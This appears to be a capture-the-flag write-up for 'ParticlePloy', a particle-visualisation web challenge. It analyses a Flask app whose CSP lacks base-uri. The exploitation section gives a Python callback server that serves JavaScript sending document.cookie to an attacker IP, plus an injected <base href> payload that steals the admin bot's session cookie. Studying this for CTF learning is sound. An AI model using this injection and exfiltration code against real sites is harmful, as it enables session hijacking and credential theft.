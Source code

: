 # ParticlePloy ⭐⭐

[< Go back](../../README.md)

## Description

A platform where you can create some nice particle visualizations.
Check it out but keep aware to make them visually appealing.

A website and [ParticlePloy/](./ParticlePloy/) were given.

## Challenge

### Reconnaisance

We have a particle creation webpage, lots of specific fields allow us to edit the particles.

More interestingly, `name` and `color` both are "string" type fields. This might come in handy.

Let's try to give it a random name and generate our particles. This gives a new webpage where we can see our particles in the background, this suggests that there is some javascript being executed in the background somewhere.

We are given the source code of the app for this challenge.

### Code analysis

Let's take a look around. `app/app.py` is pretty interesting, we learn that there are very strict rules for our two "string" fields we are mostly intersted in:

```py

class ParticleConfigForm(Form):
    name = StringField("A cool name for your particles!")
    # ...
    color = StringField(
        "Color (hexadecimal representation)",
        validators=[validators.Regexp(regex="^#([A-Fa-f0-9]{6}|[A-Fa-f0-9]{3})$")],
        default="#000000",
    )
    # ...
```

Appart from these strict rules, we also have a pretty heavy sanitization, using `html-sanitizer`.

And we also learn that a `custom_particle_config.js` file is generated for each particle:

```py
@blueprint.route("/particles/<uuid>/custom_particle_config.js", methods=["GET"])
def custom_particle_js(uuid):
    pc = db.get_particle_config(uuid)
    particles_config = pc["config"]

    return Response(
        response=render_template("particles.js", particles_config=particles_config),
        status=200,
        mimetype="application/javascript",
    )
```

Let's take a look at the template at `app/templates/particles.js`:

```js
window.onload = function() {
    config = {{ particles_config }}
    config['selector'] = '.background';
    Particles.init(config);
};
```

Then this template gets injected and ran in `app/tempaltes/view.html`:

```html
<script nonce="{{ csp_nonce() }}">
    let script = document.createElement('script');
    script.src = document.getElementById('custom_particles').innerText;
    document.body.appendChild(script);
</script>
```

But it appears to be "nonce-protected". Let's take a look at the CSP configurations and at sanitization.

#### Protection

In `app/app.py` we find the following:

```py
def create_app() -> Flask:
    app = Flask(__name__)

    Talisman(
        app,
        force_https=False,
        content_security_policy={"script-src": ["'strict-dynamic'"]},
        content_security_policy_nonce_in=["script-src"],
    )
    # ...
```

This is a pretty strict CSP, but it allows for `strict-dynamic` scripts. This means that we can inject scripts as long as they are generated by the app itself. Which seems logical as that is what the app is meant to do. Cool we are starting to see a vector of attack.

Just below the `create_app` function we find the rules applied by `html-sanitizer`, though they are commented out and don't really apply any sanitization.

#### Admin

We've explored the `app/` folder let's take a look at the `admin-simulation/` now. Here we learn three things:

1. Both `app/` and `admin-simulation/` share the same database.
2. There is a `session` cookie that contains the FLAG!
3. The `admin-simulation/main.py` runs a headless browser that loads once every 2s each particle webpage, executing the `custom_particle_config.js` script in the process.

Okay we have an objective, and our vector of attack is getting clearer.

It appears we have to somehow inject malicious content inside the `custom_particle_config.js` script, and have the admin-simulation load it, if we manage to maybe get a simple request back to our server, we can steal the `document.cookies` and get the flag.

### Exploitation

#### Setting up our callback server

Let's not go too complicated on this, we just want a simple HTTPServer, that sends a new payload that requests the document.cookies when called:

```py
from http.server import BaseHTTPRequestHandler, HTTPServer

class Server(BaseHTTPRequestHandler):
    def do_GET(self):
        print("COOKIES:\n", self.headers['Cookie'])
        print("headers:\n", self.headers)
        print("URL:\n", self.path)
        js_code = '''
        var cookies = document.cookie;
        fetch(`https://<IP>?flag=${encodeURIComponent(document.cookie)}`, {
            method: 'GET',
        })
        '''
        self.send_response(200)
        self.send_header('Content-type', 'application/javascript')
        self.end_headers()
        self.wfile.write(js_code.encode('utf-8'))

def run(server_class=HTTPServer, handler_class=Server, port=8000):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        pass
    httpd.server_close()

if __name__ == '__main__':
    run()

```

#### Crafting our payload

After looking at [csp-evaluator](https://csp-evaluator.withgoogle.com/) we can quickly see that the CSP configuration is missing a critical element, `base-uri`. This means that we can inject a `<base>` tag as the `name` of our particle and have it point to our malicious server.

So first step, start the malicious server.

Second generate a new particle with the following name:

```html
<base href="http://<IP>:8000/"/>
```

And finally, we get the flag as an URIEncoded element, let's just run it through CyberChef's "parse URI" tool and we get the flag.
